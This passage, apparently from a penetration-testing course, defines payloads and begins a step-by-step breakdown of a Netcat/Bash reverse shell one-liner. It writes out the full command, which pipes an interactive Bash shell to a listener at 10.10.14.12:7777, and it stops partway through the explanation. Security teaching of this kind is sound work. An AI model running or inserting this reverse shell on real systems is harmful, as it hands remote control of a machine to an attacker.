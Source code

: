 `Have you ever sent an email or text to someone?`

Most of us probably have. The message we send in an email or text is the packet's payload as it is sent across the vast Internet. In computing, the payload is the intended message. In information security, the payload is the command and/or code that exploits the vulnerability in an OS and/or application. The payload is the command and/or code that performs the malicious action from a defensive perspective. As we saw in the reverse shells section, Windows Defender stopped the execution of our PowerShell payload because it was considered malicious code.

Keep in mind that when we deliver and execute payloads, just like any other program, we give the target computer instructions on what it needs to do. The terms "malware" and "malicious code" romanticize the process and make it more mysterious than it is. Any time we work with payloads, let's challenge ourselves to explore what the code & commands are actually doing. We will start this process by breaking down the one-liners we worked with earlier:

---

## One-Liners Examined

#### Netcat/Bash Reverse Shell One-liner

  Netcat/Bash Reverse Shell One-liner

```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

The commands above make up a common one-liner issued on a Linux system to serve a Bash shell on a network socket utilizing a Netcat listener. We used this earlier in the Bind Shells section. It's often copied & pasted but not often understood. Let's break down each portion of the one-liner:

#### Remove /tmp/f

  Remove /tmp/f

```shell
rm -f /tmp/f; 
```

Removes the `/tmp/f` file if it exists, `-f` causes `rm` to ignore nonexistent files. The semi-colon (`;`) is used to execute the command sequentially.

#### Make A Named Pipe

  Make A Named Pipe

```shell
mkfifo /tmp/f; 
```

Makes a [FIFO named pipe file](https://man7.org/linux/man-pages/man7/fifo.7.html) at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (`;`) is used to execute the command sequentially.

#### Output Redirection

  Output Redirection
